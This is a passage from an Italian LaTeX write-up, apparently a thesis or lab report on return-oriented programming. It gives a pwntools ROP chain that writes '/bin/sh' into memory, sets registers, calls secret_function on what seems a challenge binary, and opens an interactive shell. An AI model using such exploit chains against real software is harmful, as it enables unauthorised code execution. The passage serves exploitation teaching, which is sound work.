 Le richieste erano pressoché simili a quelle viste negli attacchi precedenti, quindi nel registro \textbf{rdi} serviva un puntatore alla stringa ``\textbf{/bin/sh\textbackslash00}'', mentre \textbf{rsi} e \textbf{rdx} dovevano essere impostati entrambi a zero.\\ 
In questo caso al posto del \textbf{gadget} contenete la \textbf{syscall} come ultimo elemento della catena, venne invece inserita la chiamata a \textbf{secret\_function}():
\begin{lstlisting}[language=Python, label=cu-idx, caption={Seconda \textbf{ROP chain} per il settaggio dei registri e la chiamata finale a \textbf{secret\_function}(), ed invio finale della stessa.}, style =Python]
rop = ROP([elf,lib])                      # creazione oggetto rop
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw("/bin/sh\x00")                    # r12 = "/bin/sh\x00"
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;
rop.raw(pop_rsi)                          # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                        # rsi = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(pop_rdi)                          # pop rdi; ret;
rop.raw(where_to_write)                   # rdi = .data idx -> "/bin/sh\x00"
rop.raw(xor_rdx)                          # rdx = 0x00
rop.call("secret_function")               # chiamata a secret_function()

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()          
\end{lstlisting}
Anche in questo caso, come per quelli precedenti, l'esecuzione dell'exploit completo portò alla corretta esecuzione di una \textit{shell}.

